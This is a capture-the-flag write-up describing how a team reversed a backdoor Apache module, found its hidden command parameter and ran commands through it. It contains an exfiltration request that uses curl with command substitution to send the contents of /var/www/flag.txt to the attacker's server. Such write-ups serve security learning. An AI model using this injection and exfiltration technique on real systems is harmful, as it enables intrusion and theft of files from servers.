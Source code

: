 Hello guys ,

So i will explain my team solution for this task 

It was really amazing task because its reverse + web so it need lot of knowledge to solve it

So first we check the task !

![capture d ecran 2017-10-19 a 11 23 25 am](https://user-images.githubusercontent.com/7364615/31766621-fdbd0a96-b4bf-11e7-9d15-05c19c028ec8.png)

Next we have backdoor.so library used with the apache server 

If we need to solve this should first understand the backdoor.so how it works


So it check first for GET\x00ndex.html 

![capture d ecran 2017-10-19 a 11 30 37 am](https://user-images.githubusercontent.com/7364615/31766872-f6d81eea-b4c0-11e7-86ee-08834d0567d4.png)

![capture d ecran 2017-10-19 a 11 31 12 am](https://user-images.githubusercontent.com/7364615/31766893-09930b80-b4c1-11e7-8ee6-dd843d21a15e.png)

OK so we need to send  https://indianer.flatearth.fluxfingers.net//x00ndex.html as first to make it all work 

then there is system function that get argument from url , but its not clear what name is this arg

so we make our prog to get the arg name 

![capture d ecran 2017-10-19 a 11 33 34 am](https://user-images.githubusercontent.com/7364615/31766979-60bdb798-b4c1-11e7-912d-2ab3d29b23aa.png)

and it was "dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp" So this is the second part 

https://indianer.flatearth.fluxfingers.net/x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=

what Next?

first what we tried to do it to understand where the flag will be shown

We tried first simple check like https://indianer.flatearth.fluxfingers.net/x00index.html_dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=ls

but for sure no output there :(

After some check we get that the '_' is replaced with ' '

So no need space here 

![capture d ecran 2017-10-19 a 11 37 02 am](https://user-images.githubusercontent.com/7364615/31767126-da3ef960-b4c1-11e7-91e3-776e15b18598.png)

Also flag will not shown here in the web part 

So if we make the flag redirected  somewhere it maybe will work 

So curl is the best solution , but we figure this out when the ctf already end :( and we didnt get any points for this task

Anyway it was Cool task to improve our skills 

Ok lets continue !

So we need curl? ok so we will send the flag to our server using curl 

So our last solution was to make this request and its work :D 

https://indianer.flatearth.fluxfingers.net/x00ndex.html?dpdpdpamamamamajvjvjvjvgsgsgsgsgpdp=curl_serverip/`cat_/var/www/flag.txt`


![capture d ecran 2017-10-19 a 11 15 22 am](https://user-images.githubusercontent.com/7364615/31767276-57b35d0a-b4c2-11e7-8f09-1a162d4cc949.png)

No points but we did it :D 


Thanks 
